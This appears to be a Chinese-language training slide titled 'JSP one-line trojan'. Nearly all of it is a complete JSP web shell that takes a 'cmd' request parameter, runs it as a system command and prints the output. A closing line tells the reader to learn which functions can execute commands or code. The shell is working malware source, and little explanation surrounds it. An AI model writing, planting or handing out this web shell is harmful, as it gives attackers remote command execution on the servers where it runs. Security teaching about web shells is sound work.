

jsp一句话木马
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd"); // 获取请求中的cmd参数
Process p = Runtime.getRuntime().exec(cmd); // 执行命令
BufferedReader in = new BufferedReader(new InputStreamReader(p.getInputStream()));
String line;
while ((line = in.readLine()) != null) {
out.println(line); // 输出执行结果
}
%>
了解什么函数能够调用系统命令或者执行代码